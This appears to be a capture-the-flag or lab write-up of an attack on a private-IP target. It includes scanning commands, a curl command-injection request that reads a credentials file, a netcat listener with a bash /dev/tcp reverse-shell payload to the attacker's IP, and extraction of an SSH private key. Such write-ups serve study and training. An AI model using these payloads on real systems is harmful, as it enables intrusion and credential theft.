Execution Steps
1. Reconnaissance and Vulnerability Discovery
Target IP Address: 10.201.75.222

Attacker IP Address: 10.201.44.153

Initial Scanning:

bash
nmap -sC -sV 10.201.75.222
Results:

Port 21/FTP: Anonymous authentication enabled

Port 80/HTTP: Apache web server running

Port 113: Contained critical path disclosure vulnerability

Web Directory Enumeration:

bash
gobuster dir -u http://10.201.75.222/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x php,html
Critical Discoveries:

/home.php - Unauthenticated command injection vulnerability

/validate.php - Configuration file containing plaintext credentials

2. Initial Compromise
Credential Extraction:

bash
curl -X POST http://10.201.75.222/home.php --data "command=cat /var/www/html/validate.php"
Compromised Credentials:

Username: charlie

Password: cn7824

Reverse Shell Establishment:

bash
Attacker listener
nc -nvlp 1234

Command injection payload
bash -c 'exec bash -i &>/dev/tcp/10.201.44.153/1234 <&1'
3. Privilege Escalation Path
SSH Key Discovery:

bash
cd /home/charlie
ls -la
Directory Contents:

teleport - Private SSH key (RSA)

teleport.pub - Public SSH key

user.txt - User flag (restricted access)

Key Extraction:

bash
cat /home/charlie/teleport
Private Key Content:

text
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW
[...full key content...]
-----END RSA PRIVATE KEY-----
4. Preparation for Final Access
The private key was successfully manually copied and stored in the teleport file on the attacking machine. Appropriate permissions were set:

bash
chmod 600 teleport
Next Steps
Establish SSH connection using the compromised private key

Retrieve user flag (user.txt)

Exploit sudo misconfiguration for privilege escalation

Obtain root flag (root.txt)

Complete comprehensive attack documentation

Interim Conclusions
The assessment successfully identified and exploited a critical remote code execution vulnerability in the web application. Unauthorized access was achieved through command injection, leading to the compromise of sensitive authentication credentials and cryptographic material. The obtained SSH private key provides a persistent access mechanism to the target environment.
